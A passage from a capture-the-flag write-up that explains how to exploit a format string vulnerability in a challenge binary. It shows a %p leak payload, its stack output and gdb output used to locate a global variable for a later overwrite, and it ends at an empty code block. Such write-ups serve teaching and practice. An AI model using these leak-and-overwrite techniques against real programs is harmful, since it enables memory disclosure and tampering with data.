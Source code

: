 ## Exploitation:
Now that we have understood the binary and a few other concepts related to the challenge, our logic for exploitation is pretty simple: 
	 - call the function `call_plumber` to obtain the address leak for the global variable `bal` with the help of the format string vullnerability. 
	 - call the function `call_plumber` again to change the value in the global variable `bal` from 100 to 200. 
	 - call the function `buy_repair_kit()`, pass the check so that the function `use_tapes()` is called. 
	 - Once `use_tapes` is called, make use of the format string vulnerability to simply leak the flag! 
Let's begin the exploit by going through each of the above four steps. 

### Leaking the address of the global variable "bal": 
This might seem a bit tricky and confusing at first, but once we start to analyse and dig in deeper, it will become more and more clearer. We will be leaking the address of bal from the `check_leaks()` function. Thus let us assume our payload to be something of this sort: 

```
payload = 'aaaaaaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'
```
With this payload, our output is:
```
aaaaaaaa 0x7fb885c53a03 (nil) 0x7fb885b79142 0x7ffcd0ad0140 (nil) 0x6161616161616161 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fb885c5000a 0x7fb885aed546 0x55efa9bb0560 0xe65c75d40c88e400 0x7ffcd0ad01d0 0x55efa9bb0532 0x31007ffcd0ad02c0 0xe65c75d40c88e400 (nil)
```

Upon noticing closely, the value at the 6th offset i.e `0x6161616161616161` is nothing but our input string `aaaaaaaa`. We find many other addresses such libc or code addresses. We are however interested in the the address leaked at the 18th offset i.e `0x55efa9bb0560`. Why this address? Well first off wherever our global variable `bal` is stored in memory, its offset from the `code_base` address won't change! Not just the `code_base`, but from any given code address, the offset always remains constant! The address of the global variable `bal` can be found using the command `i var bal` in gdb (Or one can simply use ida/ ghidra for finding the address). 
As we can see:
```
gdb-peda$ i var bal
All variables matching regular expression "bal":

File global-locale.c:
39:	struct __locale_struct _nl_global_locale;

File malloc.c:
1611:	static size_t global_max_fast;

File resolv_conf.c:
80:	static struct resolv_conf_global *global;

File rtld.c:
278:	struct rtld_global _rtld_global;
306:	struct rtld_global_ro _rtld_global_ro;

Non-debugging symbols:
0x000055efa9bb2d68  __do_global_dtors_aux_fini_array_entry
0x000055efa9bb3010  bal
gdb-peda$ 
```
The address of the global variable `bal` is `0x000055efa9bb3010`. Since the offset of the global variable remains constant from code_base or any code address for that matter, we can make use of the leak obtained at the 18th offset above, ie `0x55efa9bb0560`, to find the address of `bal`.
How? Find the offset of the variable `bal` from the leaked stack address, add the offset to the leaked stack address. You may also see how it's actually calculated! 
```
```